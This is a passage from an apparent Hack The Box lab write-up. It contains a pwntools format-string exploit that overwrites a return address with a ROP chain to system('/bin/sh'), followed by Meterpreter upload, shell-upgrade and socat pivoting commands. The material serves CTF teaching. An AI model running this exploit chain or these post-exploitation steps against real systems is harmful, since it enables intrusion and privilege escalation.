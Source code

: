 ```py
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 24:(poprdi & 0xffffffff)})
wait()
assert(len(payload) < 100)
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 28:(poprdi >> 32)})
wait()
assert(len(payload) < 100)
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 32:(libc.search('/bin/sh').next() & 0xffffffff)})
wait()
assert(len(payload) < 100)
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 36:(libc.search('/bin/sh').next() >> 32)})
wait()
assert(len(payload) < 100)
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 40:(libc.symbols['system'] & 0xffffffff)})
wait()
assert(len(payload) < 100)
p.sendline(payload)

payload = fmtstr_payload(8, {main_ret + 44:(libc.symbols['system'] >> 32)})
wait()
assert(len(payload) < 100)
p.sendline(payload)

target = main_ret - 8 - 4
payload = fmtstr_payload(8, {target:(1337)})
wait()
assert(len(payload) < 100)
p.sendline(payload)
p.interactive()
```

To access the binary two hops deep we first upload a static socat binary to the target.

```
meterpreter > upload socat
[*] uploading  : /home/jack/htb/boxes/static/writeup/socat -> socat
[*] Uploaded -1.00 B of 366.38 KiB (-0.0%): /home/jack/htb/boxes/static/writeup/socat -> socat
[*] uploaded   : /home/jack/htb/boxes/static/writeup/socat -> socat
```

We upgrade our shell and run the binary with socat in a loop, listening on local port 8989.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@pki:/tmp/.s$ chmod +x socat
www-data@pki:/tmp/.s$ while :; do /tmp/.s/socat tcp-l:8989,reuseaddr EXEC:/usr/bin/ersatool;sleep 1;done &
<989,reuseaddr EXEC:/usr/bin/ersatool;sleep 1;done &
[1] 111852
www-data@pki:/tmp/.s$ jobs
jobs
[1]+  Running                 while :; do
    /tmp/.s/socat tcp-l:8989,reuseaddr EXEC:/usr/bin/ersatool; sleep 1;
done &
```
